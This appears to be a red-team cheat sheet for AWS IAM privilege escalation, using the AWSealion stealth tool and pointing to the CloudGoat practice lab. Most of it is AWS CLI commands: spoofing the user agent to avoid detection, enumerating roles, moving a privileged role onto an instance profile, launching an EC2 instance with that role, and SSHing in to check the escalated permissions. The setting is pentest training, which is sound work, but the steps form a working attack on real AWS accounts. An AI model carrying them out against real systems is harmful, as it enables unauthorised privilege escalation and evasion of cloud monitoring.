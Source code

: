 # IAM Privesc

AWSealion helps in staying stealthy during red team and pentesting engagements to ensure that your attacking footprint is as small as possible in an AWS environment.

https://github.com/0xd4y/AWSealion

### Create Profile
```sh
aws sealion --set-engagement iam_privesc_by_attachment
aws configure –profile kerrigan
```

### Set User Agent
```
cat user_agents.txt
aws sealion --set-user-agent "aws-cli/1.18.39 Python/3.7.7 Windows/10 botocore/1.15.39"
```

### Check current user permissions
Limit (AccessDenied) Calls
```
aws iam list-attached-user-policies --user-name kerrigan --profile kerrigan
```

Check if we can list roles
```
aws iam list-roles --profile kerrigan
```

If roles have `sts:AssumeRole` for `Principal service ec2.amazonaws.com` we can try to spin up a ec2 instance with role.
```
aws ec2 describe-instances --profile kerrigan --region us-east-1
```

Create AWS SSH Key to use on ec2 and copy output to test.pem
```
aws ec2 create-key-pair --key-name test --output text --profile kerrigan --region us-east-1
```

Get instance profile to use on instance
```
aws iam list-instance-profiles --profile kerrigan
aws iam remove-role-from-instance-profile –instance-profile-name <insert instance profile name here> –-role-name <insert username here> –profile <insert profile name here>
aws iam add-role-to-instance-profile –instance-profile-name <insert instance profile name here> –-role-name <insert username here> –profile <insert profile name here>
```

Start EC2 Instance
```
aws ec2 run-instances –image-id <insert ami id here> –instance-type <insert instance type here> –iam-instance-profile Arn=<insert the arn of the instance profile> –key-name <inset key name here> –subnet-id <insert the subnet id here> –security-group-ids <insert security group id here> –region us-east-1 –profile <insert profile name here> --associate-public-ip-address

```

SSH into new server
```
ssh -i <insert key name here>.pem ubuntu@<insert public ip address here>
```

Check for permission
```
sudo apt-get install awscli
aws iam list-attached-role-name –role-name <insert role name here>
aws iam get-policy –policy-arn <insert the policy arn here>
aws iam get-policy-version –policy-arn <insert the policy arn here> –version-id <insert version id here>
```


## Additional Tools
CloudGoat is Rhino Security Labs' "Vulnerable by Design" AWS deployment tool. It allows you to hone your cloud cybersecurity skills by creating and completing several "capture-the-flag" style scenarios. Each scenario is composed of AWS resources arranged together to create a structured learning experience. Some scenarios are easy, some are hard, and many offer multiple paths to victory. As the attacker, it is your mission to explore the environment, identify vulnerabilities, and exploit your way to the scenario's goal(s).

https://github.com/RhinoSecurityLabs/cloudgoat